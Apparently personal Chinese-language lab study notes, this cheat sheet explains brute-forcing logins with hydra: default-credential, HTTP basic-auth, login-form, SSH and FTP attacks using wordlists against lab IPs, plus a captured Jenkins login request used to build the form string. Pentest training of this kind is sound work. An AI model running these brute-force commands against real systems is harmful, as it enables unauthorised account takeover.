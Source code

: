 左转去流量分析.md查看

### hydra

>HTBA关于hydra的栗子：  
``````
默认密码[用户名和密码一样]：

hydra -C wordlist.txt SERVER_IP -s PORT http-get /
实例：
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.56.248 -s 43434 http-get /
通过密码匹配用户名：
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p admin -u -f 94.237.56.248 -s 43434 http-get /

基本身份验证暴力破解 - 用户/密码词表
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /	

登录表单暴力破解 - 静态用户，通过字表
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"	

SSH 蛮力 - 用户/通行证词表
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4	

FTP 蛮力 - 静态用户，传递字表
hydra -l m.gates -P rockyou.txt ftp://127.0.0.1	


``````
>列出hydra支持的服务
``````
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
``````
用于最基础的HTTP身份验证：  
http[s]-{head|get|post}  
用于登录表单：  
http[s]-post-form  (post和get不能乱用,不然会出问题)

>实例

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.234.67 -s 80 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

hydra在做网页登陆时，引号里的成分"/PATH:user&pass:错误的回复"
``````
POST /j_acegi_security_check HTTP/1.1
Host: 10.10.228.252:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://10.10.228.252:8080
Connection: close
Referer: http://10.10.228.252:8080/login?from=%2F
Cookie: JSESSIONID.22fcccde=node01581dbtfy5zgpdqpoltmbmxau30.node0
=
Upgrade-Insecure-Requests: 1

j_username=brute&j_password=brute&from=%2F&Submit=Sign+in
``````
POST/GET后和HTTP/1.1之间是路径，user&pass(不用from和Submit),错误的回复要在页面上找
